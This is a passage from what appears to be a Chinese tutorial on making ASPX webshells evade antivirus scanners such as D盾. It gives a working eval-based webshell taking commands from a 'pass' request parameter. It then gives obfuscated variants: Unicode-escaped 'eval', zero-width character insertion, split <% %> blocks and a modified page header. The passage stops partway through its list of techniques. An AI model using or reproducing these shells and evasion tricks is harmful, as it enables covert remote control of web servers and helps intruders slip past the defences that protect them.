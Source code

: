   

 **0x03 aspx的免杀**

aspx免杀的方式相对于PHP和java的较少，这里列出5种方式来bypass进行免杀  

  *   *   *   *   *   * 

    
    
    unicode编码空字符串连接<%%>截断头部替换特殊符号@注释

  
我们以一个普通的冰蝎马作为示例

  * 

    
    
    <%@ Page Language="Jscript"%>eval(@Request.Item["pass"],"unsafe");%

  

这一步无需多言，一定是会被D盾所查杀的

![](https://gitee.com/fuli009/images/raw/master/public/20220416212809.png)  

####  **1、unicode编码**

例如eval他可以变为\u0065\u0076\u0061\u006c，经过我本地的测试，它不支持大U和多个0的增加

  * 

    
    
    <%@ Page Language="Jscript"%><%\u0065\u0076\u0061\u006c(@Request.Item["pass"],"unsafe");%>

  

####  **2、空字符串连接**

在函数字符串中插入这些字符都不会影响脚本的正常运行，在测试前需要注意该类字符插入的位置，否则插入错误的地方会产生报错

  *   *   *   * 

    
    
    \u200c\u200d\u200e\u200f

  

####  **3、使用 <%%>语法**

将整个字符串与函数利用<%%>进行分割

  * 

    
    
    <%@page Language=JS%><%eval%><%(Request.%><%Item["pass"],"unsafe");%>

  

####  **4、头部免杀**

之前有遇到过检测该字段的<%@ Page Language="C#"
%>，这个是标识ASPX的一个字段，针对该字段进行免杀%@Language=CSHARP%，很久之前修改为这样就过了，同样的，可以修改为

  * 
